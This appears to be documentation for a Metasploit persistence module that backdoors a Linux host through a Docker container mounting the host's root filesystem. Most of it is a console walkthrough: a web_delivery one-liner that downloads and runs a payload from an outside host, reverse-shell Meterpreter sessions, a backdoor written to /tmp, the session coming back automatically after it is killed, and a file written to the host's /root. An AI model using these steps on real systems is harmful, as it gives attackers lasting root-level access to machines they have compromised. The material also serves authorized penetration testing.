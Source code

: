 ## Vulnerable Application

This module maintains persistence on a host by creating a docker image which runs our
payload, and has access to the host's file system (/host in the container). Whenever the
container restarts, the payload will run, or when the payload dies the executable
will run again after a delay. This will allow for writing back
into the host through cron entries, ssh keys, or other method.

Verified on Ubuntu 22.04.

## Verification Steps

1. Start `msfconsole`
2. Get a Meterpreter session
3. `use exploit/linux/persistence/docker_image`
4. `set SESSION [SESSION]`
5. `run`
6. You should get a new session from within the docker image with `/host` mounted from `/` on the host.

## Options

### SLEEP

How many seconds the docker image should wait before checking if the session has died and trying to re-establish it.
Default is `600`

## Scenarios

### Ubuntu 22.04

Get a meterpreter session

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (/root/.msf4/msfconsole.rc)> setg payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set srvport 8082
srvport => 8082
resource (/root/.msf4/msfconsole.rc)> set uripath l
uripath => l
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4446
lport => 4446
resource (/root/.msf4/msfconsole.rc)> run
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 1.1.1.1:4446 
[*] Using URL: http://1.1.1.1:8082/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO bLEZJjLj --no-check-certificate http://1.1.1.1:8082/l; chmod +x bLEZJjLj; ./bLEZJjLj& disown
msf exploit(multi/script/web_delivery) > 
[*] 2.2.2.2     web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4446 -> 2.2.2.2:49368) at 2025-09-10 09:06:24 -0400
```

Install Persistence

```
msf exploit(multi/script/web_delivery) > use exploit/linux/persistence/docker_image 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/persistence/docker_image) > set session 1
session => 1
msf exploit(linux/persistence/docker_image) > check
[!] Payloads in /tmp will only last until reboot, you may want to choose elsewhere.
[*] Checking Docker availability and permissions...
[*] The service is running, but could not be validated. docker app is installed and accessible
msf exploit(linux/persistence/docker_image) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/persistence/docker_image) > run
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 1.1.1.1:4444 
msf exploit(linux/persistence/docker_image) > [*] Running automatic check ("set AutoCheck false" to disable)
[!] Payloads in /tmp will only last until reboot, you may want to choose elsewhere.
[*] Checking Docker availability and permissions...
[!] The service is running, but could not be validated. docker app is installed and accessible
[*] Writing backdoor to /tmp//DoEVqOGSMX
[*] Writing '/tmp//DoEVqOGSMX' (250 bytes) ...
[*] Temporary container created: 3e7ce0d939e06035a34a9c00a83529631838c278de745edf8ef906ca4b04127b
[+] Persistent image created: alpine_fslaxxlv
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 2.2.2.2
[+] Container started with internal entrypoint: 0793ddcdab86a68dfa27ce265411550d9bce5c29b183890e4984d01137e741c6
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:47480) at 2025-09-10 09:11:32 -0400
[*] Stopping and removing temp container
[*] Payload installed and running with 600-second loop in container
[*] Meterpreter-compatible Cleanup RC file: /root/.msf4/logs/persistence/2.2.2.2_20250910.1144/2.2.2.2_20250910.1144.rc
```

Show the running docker container

```
msf exploit(linux/persistence/docker_image) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 16004 created.
Channel 21 created.
docker ps
CONTAINER ID   IMAGE             COMMAND            CREATED          STATUS          PORTS     NAMES
0793ddcdab86   alpine_fslaxxlv   "/entrypoint.sh"   50 seconds ago   Up 49 seconds             great_cannon

exit
meterpreter > background
[*] Backgrounding session 1...
```

Kill meterpreter to show it restart automatically

```
msf exploit(linux/persistence/docker_image) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > exit
[*] Shutting down session: 2

[*] 2.2.2.2 - Meterpreter session 2 closed.  Reason: Died
msf exploit(linux/persistence/docker_image) >
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 2.2.2.2
[*] Meterpreter session 3 opened (1.1.1.1:4444 -> 2.2.2.2:56490) at 2025-09-10 09:21:32 -0400
```

Show access to the host's OS.

```
msf exploit(linux/persistence/docker_image) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > cat /etc/os-release
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.22.1
PRETTY_NAME="Alpine Linux v3.22"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://gitlab.alpinelinux.org/alpine/aports/-/issues"
meterpreter > cat /host/etc/os-release
PRETTY_NAME="Ubuntu 22.04.1 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.1 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
meterpreter > shell
Process 19 created.
Channel 3 created.
touch /host/root/pwnd
ls -lah /host/root/pwnd
-rw-r--r--    1 root     root           0 Sep 10 17:02 /host/root/pwnd
```